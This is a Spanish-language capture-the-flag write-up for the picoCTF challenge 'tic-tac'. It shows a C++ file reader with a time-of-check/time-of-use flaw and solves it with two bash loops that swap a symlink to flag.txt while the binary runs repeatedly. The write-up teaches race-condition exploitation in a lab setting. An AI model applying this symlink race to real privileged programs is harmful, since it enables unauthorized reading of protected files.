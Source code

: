 # tic-tac

En este ejercicio nos dan las credenciales a una shell con un binario.

El binario tiene el siguiente código:

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Podemos ver que el programa imprime la un archivo (en este caso queremos que sea flag) por pantalla si llegamos hasta la parte final del código. Lo que pasa es que hay una condición que comprueba si somos el dueño del archivo y si no cierra el programa. Para poder solucionar este ejercicio tenemos que bypassear esa condición. Para eso podemos hacer lo siguiente:

Primero, cuando el flujo del programa esté comprobando quien es el dueño mandarle un archivo en donde seamos dueños. Segundo cuando acabe de comprobar, antes de que imprima el archivo que le pasemos, cambiar a flag.txt. Podemos hacer esto creando 2 scripts que estén en un bucle infinito y usando enlaces simbólicos de la siguiente forma:

```bash
# Script 1

while true; do
    ln -sf ./hola.txt enlace
    ln -sf ./flag.txt enlace
done
```

Este intercambia todo el rato el enlace intercambiándolo entre nuestro archivo y el real.

> Hay que crear de antemano el archivo hola.txt

```bash
# Script 2

while true; do
    ./txtreader enlace
done
```

Este ejecuta todo el rato el binario pasándole el enlace que va cambiando.

Eventualmente en alguna ejecución cuadrará en el momento justo el intercambio, consiguiendo así la flag:

```c
./ejecutar_programa.sh 
. . .
Error: you don't own this file
Error: you don't own this file
picoCTF{SECRET}
Error: you don't own this file
Error: you don't own this file
. . .
```

Gracias por leer!
